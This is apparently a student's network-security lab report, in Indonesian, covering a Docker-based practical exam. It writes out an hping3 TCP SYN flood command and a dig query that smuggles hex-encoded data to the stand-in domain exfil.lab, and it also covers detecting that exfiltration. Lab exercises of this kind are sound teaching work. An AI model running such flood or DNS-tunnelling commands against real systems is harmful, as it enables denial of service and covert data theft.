







# LAPORAN PRAKTIKUM UTS - NETWORK SECURITY

**Identitas Mahasiswa:**

- **Nama:** David Azhar Juli Nurbani
- **NIM:** 24552011309
- **Kelas:** TIF RP 24E CNS
- **Kasus Ujian:** Kasus 2 (K2) — $(2+4+5+5+2+0+1+1+3+0+9) \bmod 10 = 32 \bmod 10 = 2$

---

## Ringkasan Pengerjaan Praktikum (Tugas 1 – Tugas 7)

### Tugas 1: Inisialisasi & Konfigurasi Jaringan Internal Compose

- **Tujuan:** Membangun _custom Docker images_ dan mengonfigurasi jaringan internal terisolasi menggunakan Docker Compose.

- **Perintah Eksekusi:**

```bash
  docker compose -p k2 -f b/b1-compose/docker-compose.yml up -d
```

Hasil & Analisis: Container berhasil dijalankan dalam mode detached pada jaringan internal yang terisolasi dari internet luar.

- **Bukti Dokumentasi:**
  

### Tugas 2: Verifikasi Topologi & Antarmuka Jaringan

**Tujuan:** Memeriksa detail konektivitas antar container dan status bridge network pada lab.

**Perintah Eksekusi:**

```Bash
docker network inspect k2_lab
```

Hasil & Analisis: Memastikan setiap container (attacker, target, dns) mendapatkan alamat IP lokal virtual yang sesuai dengan topologi.

- **Bukti Dokumentasi:**
  

### Tugas 3: Inspeksi Konfigurasi & Hak Akses Lab

**Tujuan:** Memeriksa struktur direktori dan parameter keamanan file konfigurasi Docker Compose.

**Perintah Eksekusi:**

```Bash
docker compose -p k2 -f b/b1-compose/docker-compose.yml config
```

Hasil & Analisis: Konfigurasi valid dan parameter isolasi jaringan (internal: true) diterapkan dengan benar tanpa error sintaks.

- **Bukti Dokumentasi:**
  

### Tugas 4: Validasi Ketersediaan Alat Uji Keamanan

**Tujuan:** Memastikan perangkat pengujian keamanan (seperti hping3, scapy, dan utilitas jaringan lainnya) tersedia di dalam container penyerang.

**Perintah Eksekusi:**

```Bash
docker compose -p k2 -f b/b1-compose/docker-compose.yml exec attacker which hping3 scapy dig
```

Hasil & Analisis: Seluruh binary tools yang dibutuhkan untuk simulasi serangan dan exfiltration merespons dengan path direktori yang valid.

- **Bukti Dokumentasi:**
  

### Tugas 5: Pengujian Paket ICMP Menggunakan Scapy

**Tujuan:** Membuat dan mengirimkan paket ICMP Echo Request kustom menggunakan skrip Python berbasis pustaka Scapy.

**Perintah Eksekusi:**

```Bash
python3 kasus/k5-scapy/kirim_icmp.py
```

Hasil & Analisis: Skrip berhasil mengeksekusi pembuatan paket layer jaringan secara kustom dan mengirimkannya ke target dengan respons Echo Reply yang valid.

- **Bukti Dokumentasi:**
  

### Tugas 6: Simulasi Serangan TCP SYN Flood

**Tujuan:** Menguji ketahanan layanan HTTP (port 80) pada container target terhadap serangan DoS berbasis TCP SYN Flood menggunakan hping3.

**Perintah Eksekusi:**

Terminal 1 (Penyerang - Flood Mode):

```Bash
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml up -d
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec attacker hping3 -S -p 80 --flood target
```

Terminal 2 (Pemantauan Target):

```Bash
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec target sh -c "netstat -ant | grep -c SYN_RECV"
```

Hasil & Analisis: Jutaan paket SYN terkirim secara masif (100% packet loss balasan karena mode flood). Pemantauan sisi target mendeteksi lonjakan status koneksi setengah terbuka (SYN_RECV).

- **Bukti Dokumentasi:**
  

### Tugas 7: Simulasi & Deteksi DNS Exfiltration

**Tujuan:** Menyelundupkan data identitas (NIM) melalui subdomain query DNS (DNS Tunneling), lalu mendeteksinya via analisis log server.

Konversi Data (NIM ke Hexadecimal):

NIM Asli: 24552011309

Hasil Encode Hex: 3234353532303131333039

**Perintah Eksekusi:**

```Bash
docker compose -p k2 -f b/docker-compose.yml up -d
docker compose -p k2 -f b/docker-compose.yml exec attacker dig +short 3234353532303131333039.k2.exfil.lab @dns
docker compose -p k2 -f b/docker-compose.yml logs dns > dns-k2.log
python3 kasus/k9-dns-detect/analisis_dns.py dns-k2.log
```

Hasil & Analisis: Query DNS dengan payload heksadesimal NIM terkirim sukses dan tercatat di dns-k2.log. Skrip analisis mendeteksi anomali pada panjang label subdomain induk exfil.lab.

- **Bukti Dokumentasi:**
  

Pembersihan Lingkungan Lab (Post-Exam Cleanup)
Seluruh container, volume, dan jaringan virtual telah dimatikan dan dibersihkan menggunakan perintah:

Bash
docker compose -p k2 -f b/docker-compose.yml down -v
